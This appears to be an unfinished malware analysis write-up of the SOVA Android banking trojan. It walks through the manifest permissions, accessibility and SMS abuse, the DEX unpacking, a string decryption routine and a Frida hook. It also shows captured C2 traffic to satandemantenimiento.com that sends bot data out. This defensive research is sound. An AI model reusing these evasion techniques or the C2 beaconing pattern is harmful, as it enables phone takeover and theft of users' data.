

## AndroidManifest.xml

The Android manifest file contains a list of permissions, activities, and services that an app provides. It is a contract between the application and the Android operating system.

#### Package Name

```xml
<manifest ... package="com.bean.cousin" >
<uses-sdk android:minSdkVersion="24" android:targetSdkVersion="32"/>
```

The application package is: `com.bean.cousin`

#### Required Permissions

```xml
<uses-feature android:name="android.hardware.telephony"/>
<uses-permission android:name="android.permission.WAKE_LOCK"/>  
<uses-permission android:name="android.permission.QUERY_ALL_PACKAGES"/>  
<uses-permission android:name="android.permission.ACCESS_WIFI_STATE"/>  
<uses-permission android:name="android.permission.ACCESS_NETWORK_STATE"/>  
<uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"/>  
<uses-permission android:name="android.permission.REQUEST_IGNORE_BATTERY_OPTIMIZATIONS"/>  
<uses-permission android:name="android.permission.USE_FINGERPRINT"/>  
<uses-permission android:name="android.permission.GET_TASKS"/>  
<uses-permission android:name="com.google.android.gms.permission.ACTIVITY_RECOGNITION"/>  
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>  
<uses-permission android:name="android.permission.RECEIVE_LAUNCH_BROADCASTS"/>  
<uses-permission android:name="android.permission.REQUEST_DELETE_PACKAGES"/>  
<uses-permission android:name="android.permission.ACTION_MANAGE_OVERLAY_PERMISSION"/>  
<uses-permission android:name="android.permission.CALL_PHONE"/>  
<uses-permission android:name="android.permission.WRITE_SETTINGS"/>  
<uses-permission android:name="android.permission.ACCESS_BACKGROUND_LOCATION"/>  
<uses-permission android:name="android.permission.RECEIVE_SMS"/>  
<uses-permission android:name="android.permission.QUICKBOOT_POWERON"/>  
<uses-permission android:name="android.permission.RECORD_AUDIO"/>  
<uses-permission android:name="android.permission.FOREGROUND_SERVICE"/>  
<uses-permission android:name="android.permission.BLUETOOTH"/>  
<uses-permission android:name="android.permission.GET_ACCOUNTS"/>  
<uses-permission android:name="android.permission.CHANGE_NETWORK_STATE"/>  
<uses-permission android:name="android.permission.CLEAR_APP_CACHE"/>  
<uses-permission android:name="android.permission.INTERNET"/>  
<uses-permission android:name="android.permission.READ_CONTACTS"/>  
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>  
<uses-permission android:name="android.permission.READ_PHONE_STATE"/>  
<uses-permission android:name="android.permission.ACCESS_COARSE_LOCATION"/>  
<uses-permission android:name="android.permission.INSTALL_PACKAGES"/>  
<uses-permission android:name="android.permission.QUERY_ALL_PACKAGES"/>  
<uses-permission android:name="android.permission.ACCESS_FINE_LOCATION"/>  
<uses-permission android:name="android.permission.READ_SMS"/>  
<uses-permission android:name="android.permission.READ_PHONE_NUMBERS"/>  
<uses-permission android:name="android.permission.SYSTEM_ALERT_WINDOW"/>  
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>  
<uses-permission android:name="android.permission.WRITE_CONTACTS"/>  
<uses-permission android:name="android.permission.REORDER_TASKS"/>  
<uses-permission android:name="android.permission.CHANGE_WIFI_STATE"/>  
<uses-permission android:name="android.permission.REQUEST_INSTALL_PACKAGES"/>  
<uses-permission android:name="android.permission.READ_PHONE_NUMBERS"/>  
<uses-permission android:name="android.permission.DISABLE_KEYGUARD"/>  
<uses-permission android:name="android.permission.SEND_SMS"/>  
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>  
<uses-permission android:name="android.permission.MODIFY_AUDIO_SETTINGS"/>  
<uses-permission android:name="android.permission.VIBRATE"/>
```

The malware asks for the above permissions. An explanation for each permission can be found [here](https://developer.android.com/reference/android/Manifest.permission).

#### Declaration of the Application

```xml
<application android:label="@string/app_name" 
	android:icon="@mipmap/ic_launcher"
	android:name="com.bean.cousin.RRjCqKwZyTjTiHoWhXqQuHwTzBoOmYxSyNrAbIyYbIqAh" 
	android:allowBackup="true"
	android:hardwareAccelerated="true"
	android:largeHeap="true"
	android:supportsRtl="true"
	android:extractNativeLibs="false"
	android:usesCleartextTraffic="true" 
	android:roundIcon="@mipmap/ic_launcher_round" 
	android:appComponentFactory="androidx.core.app.CoreComponentFactory">
```


- `android:label="@string/app_name" android:icon="@mipmap/ic_launcher"`:

In `res/values/strings.xml` the value of `app_name` is Chrome and uses the Chrome's icon found in `res/mipmap-*/ic_launcher.png`.

- `android:name="com.bean.cousin.RRjCqKwZyTjTiHoWhXqQuHwTzBoOmYxSyNrAbIyYbIqAh"`:

The fully qualified name of the application is `com.bean.cousin.RRjCqKwZyTjTiHoWhXqQuHwTzBoOmYxSyNrAbIyYbIqAh`. When the application process is started, this class is instantiated before any of the application's components. 

- `android:allowBackup="true"`:

The application also allows its files to be included in the backup and restore operation.

- `android:hardwareAccelerated="true"`:

Hardware-accelerated rendering should be enabled for all activities in the application.

- `android:largeHeap="true"`:

The application process should be created with a large Dalvik heap.

- `android:supportsRtl="true"`:

Right-to-Left (RTL) is supported.

- `android:extractNativeLibs="false"`:

Native libraries are stored uncompressed in the APK.

- `android:usesCleartextTraffic="true"`:

The malware intends to use plain HTTP requests.

- `android:appComponentFactory="androidx.core.app.CoreComponentFactory"`:

AndroidX library is used.

> Therefore, upon launch, the `com.bean.cousin.RRjCqKwZyTjTiHoWhXqQuHwTzBoOmYxSyNrAbIyYbIqAh` will be instantiated first.

#### Accessibility Service

More info: https://developer.android.com/reference/android/accessibilityservice/AccessibilityServiceInfo

- `android.permission.BIND_ACCESSIBILITY_SERVICE`
- `android.accessibilityservice.AccessibilityService`

```xml
<service android:label="@string/app_name" 
	android:name="com.devapprove.a.ru.news.service.AppAccessibilityService" 
	android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE" 
	android:exported="false">
	<intent-filter>
		<action 			android:name="android.accessibilityservice.AccessibilityService"/>
	</intent-filter>
	<meta-data android:name="android.accessibilityservice" 
		android:resource="@xml/accessibilityservice"/>
</service>
```


The related `res/xml/accessibilityservice.xml` file contains:

```xml
<?xml version="1.0" encoding="utf-8"?>  
<accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
	android:description="@string/accessibility_service_description" 
	android:accessibilityEventTypes="typeAllMask"
	android:accessibilityFlags="flagReportViewIds|flagRequestTouchExplorationMode|flagIncludeNotImportantViews|flagDefault"
	android:canRetrieveWindowContent="true"
	android:canPerformGestures="true"/>
```

`android:accessibilityEventTypes="typeAllMask"`:
Receives all events ( `AccessibilityEvent.TYPES_ALL_MASK` )

`android:canRetrieveWindowContent="true"`:
The accessibility service is able to retrieve the active window content.

#### Notification Service

The application registers a service that receives calls from the system when new notifications are posted or removed, or their ranking changed.

- `android.permission.BIND_NOTIFICATION_LISTENER_SERVICE`
- `android.service.notification.NotificationListenerService`

```xml
<service android:name="com.devapprove.a.ru.news.service.NotificationService" 
	android:permission="android.permission.BIND_NOTIFICATION_LISTENER_SERVICE" 
	android:enabled="true"
	android:exported="false">  
	<intent-filter>  
		<action android:name="android.service.notification.NotificationListenerService"/>  
	</intent-filter>  
</service>
```


#### Device Admin

More info: https://developer.android.com/guide/topics/admin/device-admin

- extends `DeviceAdminReceiver` class
- `android.permission.BIND_DEVICE_ADMIN` permission
- `android.app.action.DEVICE_ADMIN_ENABLED` action the application must handle

```xml
<receiver android:name="com.devapprove.a.ru.news.MyAdminReceiver" 
		  android:permission="android.permission.BIND_DEVICE_ADMIN" 
		  android:exported="true">  
	<meta-data android:name="android.app.device_admin" 
		android:resource="@xml/admin"/>  
	<intent-filter>  
		<action android:name="android.app.action.DEVICE_ADMIN_ENABLED"/>  
		<action android:name="android.app.action.DEVICE_ADMIN_DISABLED"/>  
	</intent-filter>  
</receiver>
```



The related `res/xml/admin.xml` file contains the following:

```xml
<?xml version="1.0" encoding="utf-8"?>
<device-admin>
    <uses-policies>
        <force-lock/>
        <set-global-proxy/>
        <encrypted-storage/>
    </uses-policies>
</device-admin>
```

## Dive Deeper

The **first class instantiated** as defined in the `AndroidManifest.xml` file is `com.bean.cousin.RRjCqKwZyTjTiHoWhXqQuHwTzBoOmYxSyNrAbIyYbIqAh`.

This class extends `Application` class and overrides `onCreate()` and `attachBaseContext()` callbacks.


#### Content Provider

```xml
<provider android:name="androidx.core.content.FileProvider" 
 android:exported="false" 
 android:authorities="com.devapprove.a.ru.news.provider" 
 android:grantUriPermissions="true">  
	<meta-data android:name="android.support.FILE_PROVIDER_PATHS" 
		android:resource="@xml/file_provider_paths"/>  
</provider>
```

Malware registers a content-provider for file sharing using `content://` scheme.

#### Received SMS

- `android.permission.RECEIVE_SMS`
- `android.intent.action.DATA_SMS_RECEIVED`

Android generates a `SMS_RECEIVED` broadcast when a new SMS is received.  The malware abuses the priority attribute (assigns the maximum value) in order to receive the SMS broadcast first.

```xml
<receiver android:name="com.devapprove.a.ru.news.SmsReceiver" 
 android:permission="android.permission.BROADCAST_SMS"
 android:enabled="true"
 android:exported="true">  
	<intent-filter android:priority="9999">  
		<action android:name="android.provider.Telephony.SMS_DELIVER"/>  
	</intent-filter>  
</receiver>
```


#### Main Activity

The main activity of the application: `com.devapprove.a.ru.news.ui.LauncherActivity` which is not found the `classes.dex`. So this an indication that the malware is packed and other classes will be loaded into application at run-time.

> Packers typically encrypt the original `classes.dex` file and embed code (stub) which decrypts the DEX file at runtime and executes it using `DexClassLoader` class.

```xml
<activity android:theme="@android:style/Theme.Translucent.NoTitleBar.Fullscreen" 
  android:name="com.devapprove.a.ru.news.ui.LauncherActivity" 
  android:exported="true">
	<intent-filter>
		<category android:name="android.intent.category.LAUNCHER"/>
		<action android:name="android.intent.action.MAIN"/>
	</intent-filter>
</activity>
```


Looking for a `DexLoader` class we find the following method:

```java
public DexClassLoader uncovercherry(...) throws Exception {  
	[...]
	Constructor constructor = DexClassLoader.class.getConstructor(String.class, String.class, String.class, ClassLoader.class);  
	[...] 
	DexClassLoader dexClassLoader = (DexClassLoader) constructor.newInstance(str, str2, str3, (ClassLoader) pathhub(field, weakReference));  
	[...]
	return dexClassLoader;  
}
```


`uncovercherry` method uses reflection ( `DexClassLoader.class.getConstructor` ) to instantiate a `DexClassLoader` instance.

**Call graph**

Using `androguard` and `Gephi` we can visualize the path that leads to `uncovercherry` method - which loads the external DEX file.

```bash
$ androguard cg 7c805f51ee3b2994e742d73954e51d7c2c24c76455b0b9a1b44d61cb4e280502.apk -o callgraph.gml
```


> Note: Alternatively, pressing `x` in Jadx-GUI to find cross-references we can move backwards from `uncovercherry()` to `attachBaseContext()`.

Now that we have a path `attachBaseContext() => decreasesparse() => damageinform() => vibrantcricket() => uncovercherry()` let's see how is the `dexPath` parameter constructed.

```java
@Override // android.content.ContextWrapper  
protected void attachBaseContext(Context context) {  
	[...]
	String dexPath = nobleamong(clusterhole);  
	[...]
	boolean royaljungle = royaljungle(dexPath);  
	[...]
	if (royaljungle) {
		decreasespare(dexPath, clusterhole, stringBuffer, this.context);  
		[...]
	}  
}
```

`dexPath` is initialized as the return value of the `nobleamong` method, which is defined as:

```java
public String nobleamong(String str) {  
	[...]
	return nuclearinquiry(str);  
}
```

`nuclearinquiry()` method is defined as follows:

```java
public String nuclearinquiry(String str) {  
	[...]
	return inflictair(str).getAbsolutePath();  
}
```

`inflictair()` is defined as:

```java
public File inflictair(String str) {  
	[...]
	return new File(str, this.REpOzCiHoGjQpWpQqNnBtIu);  
}
```

Inside `RRjCqKwZyTjTiHoWhXqQuHwTzBoOmYxSyNrAbIyYbIqAh`, the attribute `REpOzCiHoGjQpWpQqNnBtIu` is initialized as the return value of `ketcupold()` method:

```java
public class RRjCqKwZyTjTiHoWhXqQuHwTzBoOmYxSyNrAbIyYbIqAh extends Application {
	[...]
	String REpOzCiHoGjQpWpQqNnBtIu = ketchupold(new int[5]);
	[...]
}
```

```java
static String ketchupold(int[] num) {  
	return globeonline();  
}
```

which leads to the decryption algorithm.

Using the following program we can print the original name which is `CtaDwII.json`

```java
import java.util.*;
import java.lang.*;
import java.io.*;

// The main method must be in a class named "Main".
class Main {
    public static void main(String[] args) {
        System.out.println(globeonline());
    }
    
    public static String globeonline() {
        int i = 0;
        for (int i2 = 9; i2 < 41; i2++) {
            i = 1038;
        }
        byte[] bArr = {80, 103, 114, 87, 100, 90, 90, 61, 121, 96, 124, 125};
        int i3 = -421;
        int i4 = ((-421) - (5066 / i)) + 9510;
        byte[] bArr2 = new byte[12];
        if (i == 500) {
            i = (-5499169) - i4;
        }
        byte[] bArr3 = {19};
        for (int i5 = 9; i5 < 10; i5++) {
            i4 = ((i - 60025) - (-421)) + 32320;
        }
        if (-421 == i4) {
            i3 = ((i4 + 9) + 6) - i;
        }
        if (i <= i4) {
            i = (79116 - (i4 * i3)) - 91782;
        }
        for (int i6 = 6; i6 < 8; i6++) {
        }
        int i7 = 0;
        while (i7 < 12) {
            int i8 = i + 42811;
            int i9 = 31 - i8;
            int i10 = i8 - (i9 * 78);
            bArr2[i7] = (byte) (((((((i8 - i9) + i10) * 0) + bArr[i7]) + (((i10 / i10) / 1) ^ 1)) + (i10 % i10)) ^ bArr3[i7 % 1]);
            int i11 = i10 / 8096345;
            i7++;
            i = i10;
        }
        for (int i12 = 19; i12 < 47; i12++) {
        }
        return new String(bArr2);
    }
}
```


> How to decrypt that file ??

## Dynamic Analysis

Install the malicious APK to the emulator:


When the malicious application is spawned it prompts the user to enable the Accessibility permissions:


The following data are sent to the C2 at `satandemantenimiento.com`.

```http
GET /api/?param=screen&value=1&botid=4dddcd2334122d7ee728&method=bots.update&access=1 HTTP/1.1
User-Agent: Dalvik/2.1.0 (Linux; U; Android 10; Android SDK built for x86_64 Build/QSR1.210802.001)
Host: satandemantenimiento.com
Connection: close
Accept-Encoding: gzip, deflate

```

```http
POST /logpost/ HTTP/1.1
Content-Type: application/x-www-form-urlencoded
charset: utf-8
Content-Length: 382
User-Agent: Dalvik/2.1.0 (Linux; U; Android 10; Android SDK built for x86_64 Build/QSR1.210802.001)
Host: satandemantenimiento.com
Connection: close
Accept-Encoding: gzip, deflate

botid=4dddcd2334122d7ee728&text=%5B%22%7B%5C%22type%5C%22%3A%5C%22INFO%5C%22%2C%5C%22log%5C%22%3A%5C%22%5BLauncherActivity%5D+CURRENT+LANG+-+EN%5C%22%2C%5C%22time%5C%22%3A%5C%221667658925989%5C%22%7D%22%2C%22%7B%5C%22type%5C%22%3A%5C%22WARNING%5C%22%2C%5C%22log%5C%22%3A%5C%22%5BLauncherActivity%5D+Starting+dead+service%5C%22%2C%5C%22time%5C%22%3A%5C%221667658925995%5C%22%7D%22%5D
```

Using Accessibility features, the malware can view and control the screen and imitate user activity.


The malware does not delete the decrypted DEX file after loading it into the process memory and therefore we can easily obtain it from the application's data folder:


Alternatively, we can use Frida to hook the `DexClassLoader` class and print the path of the loaded file - the first parameter passed to the `DexClassLoader` constructor.

The script is available [here](https://gist.githubusercontent.com/eybisi/abb844ebde00e6c0d5f6896d61dae911/raw/ac2816d35190af4057767818028b9eda61fd3aa8/hook_dexloader.js)

A simplified script is included below:

```js
// handle to `DexClassLoader` class
let dexclassLoader = Java.use("dalvik.system.DexClassLoader");
let system = Java.use("java.lang.System");

// hook constructor
dexclassLoader.$init.implementation = function(a,b,c,d) {
	console.log("\n[+] DexClassLoader $init called!");
	console.log(`[!] dexPath = ${a}`);
	system.exit(0);
}
```


Copy the decrypted DEX file to `/data/local/tmp` and download to the host machine using `adb pull` for further analysis.

## Analyzing the decrypted DEX

Import the dropped DEX file into Jadx-GUI:


SOVA malware employs the following open-source [project](https://github.com/sonuauti/Android-Web-Server) to exfiltrate data to the C2 server.

- The C2 server listens on `http://satandemantenimiento.com`
- If the device's language is set to any of the following locales then it exits: AZ, AM, BY, KZ, KG, MD, RU, TJ, UZ, UA, ID.

> ... will update soon ...

## References

> Special thanks to [@ReBensk](https://twitter.com/ReBensk) for being awesome.

- https://muha2xmad.github.io/malware-analysis/sova/
- https://pentest.blog/n-ways-to-unpack-mobile-malware/
